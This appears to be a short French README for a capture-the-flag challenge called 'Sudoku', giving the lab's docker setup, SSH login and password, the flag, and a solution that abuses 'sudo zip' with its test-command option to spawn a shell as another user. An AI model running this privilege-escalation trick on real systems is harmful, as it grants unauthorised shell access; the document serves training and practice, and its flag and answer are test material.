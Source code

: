 # Sudoku
## Challenge

## Résolution

```bash
TF=$(mktemp -u)
sudo -u master zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

## Setup

```
docker-compose up --build -d
```

**Port :** 22

**Configuration challenge**

* ssh : `padawan@sudoku.phack.fr`
* Mdp : `padawan`

## Flag

```
PHACK{U_h4v3_tH3_suP3r_P0w3r}
```